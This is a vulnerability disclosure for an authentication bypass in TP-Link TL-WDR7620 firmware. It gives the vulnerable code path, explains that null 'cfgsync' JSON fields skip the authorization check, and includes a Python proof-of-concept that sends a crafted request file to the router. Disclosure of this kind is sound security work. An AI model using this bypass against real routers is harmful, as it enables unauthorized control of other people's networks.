




# Overview
Details of the vulnerability found in the tplink router TL-WDR7620.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| TL-WDR7620    |  20190725_2.0.12    | https://service.tp-link.com.cn/detail_download_8635.html   |


# Vulnerability details
## 1. Vulnerability trigger Location
There is an unauthorized access vulnerability in the firmware's `httpParser` processing logic. The vulnerability is triggered along the path `httpParser -> httpPostHandle -> httpProcDataSrv`. In the `httpProcDataSrv` function (at offset `0x404CB25C`), there exists a method to bypass `httpDoAuthorize`, effectively bypassing authentication. A specially crafted POST request can be used to trigger this vulnerability.


## 2. Vulnerability  Analysis
- The root cause of this vulnerability lies in the program's handling of user-supplied JSON requests. It incorrectly treats certain fully user-controlled fields (such as `"get_config_info"`, `"start_get_config_info"`, and `"stop_wan_dhcp_opera"` under `"cfgsync"`) as conditions for bypassing authentication. In the logic check, as long as these fields are present and set to `null`, the program directly skips the `httpDoAuthorize` authentication process. As a result, unauthenticated requests are allowed to proceed to subsequent sensitive processing functions.

# POC
## python script
```python
import socket

ip = "192.168.0.1"   # target ip
file_path = "./payload.txt"   

with open(file_path, "rb") as f:
    payload = f.read()

print(f"[+] Loaded {len(payload)} bytes from {file_path}")

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, 80))

s.sendall(payload)

response = s.recv(4096)
print(response.decode(errors="ignore"))

s.close()
```


# Vulnerability Verification Screenshot
##  wdr7620
- Use `binwalk -Me` to extract the `10400` file from the original firmware (the firmware’s operating system is VxWorks, and this file is the main binary), along with the symbol table file `15CBC1`. Then, we used a self-developed emulation tool specifically designed for VxWorks to start the service and perform validation.




# Discoverer
m202472188@hust.edu.cn HUST IOTS&P lab
